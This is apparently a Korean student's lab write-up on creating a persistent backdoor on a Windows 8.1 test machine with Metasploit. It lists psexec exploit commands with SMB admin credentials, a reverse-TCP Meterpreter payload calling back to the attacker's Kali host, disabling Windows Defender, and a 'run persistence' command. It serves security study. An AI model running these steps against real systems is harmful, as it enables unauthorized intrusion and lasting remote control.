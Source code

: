 # 실습과정

### Persistence
우리는 Window 8.1에서도 동일한 BackDoor를 만들기 위해 다음과 같이 진행을 할것이다.

그중 우리는 **psexec**를 통해 expoit을 할 것이다.

그래서 다음과 같은 작업을 순서대로 진행을 합니다.  
**msfconsole**  
![img](https://github.com/arad4228/2021_winter/blob/main/Kali_linux/Post%20Exploitation/BackDoor/Window%208.1/Persistence/msfconsole.png)  

그다음 우리는 psexec를 통해 expoit을 한다고 하였으므로 이를 검색하고 공격방법으로 설정을 한다.
**search psexec**  
**use exploit/windows/smb/psexec**  
**set payload windows/meterpreter/reverse_tcp_allports**  
![img](https://github.com/arad4228/2021_winter/blob/main/Kali_linux/Post%20Exploitation/BackDoor/Window%208.1/Persistence/%EA%B3%B5%EA%B2%A9%EB%B0%A9%EB%B2%95%EA%B3%BC%20payload%EC%84%A4%EC%A0%95.png)  

이렇게 공격방법을 선택했다면 다음으로는 내부의 옵션들을 설정한다.
**show options**  
**set RHOST (Window 8.1의 IP)**  
**set LHOST (Kali의 IP)**  
**set smbuser administrator**  
**set smbpass (password == 필자는 arad4228 )**  
![img](https://github.com/arad4228/2021_winter/blob/main/Kali_linux/Post%20Exploitation/BackDoor/Window%208.1/Persistence/%EB%82%98%EB%A8%B8%EC%A7%80%20option%EC%84%A4%EC%A0%95.png)
이렇게 옵션들을 설정한 다음 다음과 같이 공격을 했을 경우 아래의 사진처럼 나오게 될것이다.
**run**  
![img](https://github.com/arad4228/2021_winter/blob/main/Kali_linux/Post%20Exploitation/BackDoor/Window%208.1/Persistence/Window%208.1%20Defender%EC%97%90%20%EC%9D%98%ED%95%B4%20%EA%B1%B0%EB%B6%80.png)
![img](https://github.com/arad4228/2021_winter/blob/main/Kali_linux/Post%20Exploitation/BackDoor/Window%208.1/Persistence/Window%208.1%20Defender.png)

공격에 들어가게 된다면 window defender에 의해 공격이 가로막히게 되며 더이상의 진행이 불가능하게 된다.

따라서 임의로 일단 window defender를 끄고 다시한번 run을 하면 진행이 되는 모습이 보인다.  
**run**  
![img](https://github.com/arad4228/2021_winter/blob/main/Kali_linux/Post%20Exploitation/BackDoor/Window%208.1/Persistence/Window%208.1%20Defender%20%ED%95%B4%EC%A0%9C.png)  
![img](https://github.com/arad4228/2021_winter/blob/main/Kali_linux/Post%20Exploitation/BackDoor/Window%208.1/Persistence/Window%208.1%20Defender%20%ED%95%B4%EC%A0%9C%ED%9B%84%20%EA%B3%B5%EA%B2%A9%20%EC%84%B1%EA%B3%B5.png)

그후 Persistence를 얻는 나머지 과정을 진행을 하면 다음과 같이 진행된다.

**sysinfo**  
**run persistence -h**  
**run persistence -A -X -i 10 -p 6666 -r (Kali의 Ip)**  
![img](https://github.com/arad4228/2021_winter/blob/main/Kali_linux/Post%20Exploitation/BackDoor/Window%208.1/Persistence/persistence%EB%A5%BC%20%EC%96%BB%EA%B8%B0.png)

이렇게 공격이 진행된 이후 생성된 script가 있는 공간을 가보면 다음과 같은 결과가 나타난다.
![img](https://github.com/arad4228/2021_winter/blob/main/Kali_linux/Post%20Exploitation/BackDoor/Window%208.1/Persistence/%EA%B3%B5%EA%B2%A9%20%EC%84%B1%EA%B3%B5.png)  
그리고 마찬가지로 regestry를 확인해보면 다음과 같다.
![img](https://github.com/arad4228/2021_winter/blob/main/Kali_linux/Post%20Exploitation/BackDoor/Window%208.1/Persistence/register%20%EB%AF%B8%EC%9E%91%EB%8F%99.png)
위의 사진을 보면 regesty는 동작하지 않은 것으로 보인다.
이유는 아마도 window Defender에서 시스템에 대한 수정을 거부하여 나타난 것을 보인다.

이후 공격은 windowXp와 같은 방식으로 BackDoor를 진행하면된다.
그러나 이는 강제로 Window Defender를 제거하고 진행을 하였기에 더이상의 진행은 의미가 없다고 생각하고 이는 여지로 남겨둘 것이다.
추후 공부를 통해 Window Defender가 제대로 동작하는 상태에서 이를 파회하는 방법을 찾아 진행을 해볼 것입니다.

## 따라서 오늘의 배운점.
아무리 Window 기본에 탑재된 Defender 즉 기본 백신도 있어야 기본적인 공격에 대해 취약해지지 않는 다는 것을 몸소 느낄 수 있었던 실습이었습니다.
